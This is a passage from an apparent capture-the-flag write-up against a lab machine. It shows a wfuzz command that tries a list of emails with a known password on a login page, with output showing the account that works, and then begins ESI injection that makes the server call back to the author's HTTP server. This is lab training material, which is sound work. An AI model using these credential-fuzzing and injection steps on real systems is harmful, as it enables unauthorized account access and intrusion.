 ```
james@lazycoop.com.cn
james@lazycoop.co.cn
```

Let\'s use `wfuzz`.

```
# wfuzz -w emails.txt -t 20 --sc 302 -d "email=FUZZ&password=Quick4cc3\$\$" http://10.10.10.186:9001/login.php
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.186:9001/login.php
Total requests: 17

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000010:   302        0 L      0 W      0 Ch        "elisa@wink.co.uk"

Total time: 4.822004
Processed Requests: 17
Filtered Requests: 16
Requests/sec.: 3.525504
```

The email address `elisa@wink.co.uk` seems to be the one. Let's give it a shot.

{% include image.html image_alt="41f30f85.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/41f30f85.png" %}

Gotcha!

### ESI Injection

According to [Wikipedia](https://en.wikipedia.org/wiki/Edge_Side_Includes),

> **Edge Side Includes** or **ESI** is a small markup language for edge level dynamic web content assembly. The purpose of ESI is to tackle the problem of web infrastructure scaling.

We have an edge device here in the form of [ESIGate](http://www.esigate.org/).

To demonstrate that ESI injection works, let raise a ticket and include an ESI tag as follows.

{% include image.html image_alt="f4daeeb4.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/f4daeeb4.png" %}

Take note of the ticket number.

{% include image.html image_alt="d63b0aaa.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/d63b0aaa.png" %}

Searching for the ticket triggers a request to my Python HTTPServer.

{% include image.html image_alt="0198d7e1.png" image_src="/688dabf6-a633-4a54-8deb-15f420ae544c/0198d7e1.png" %}
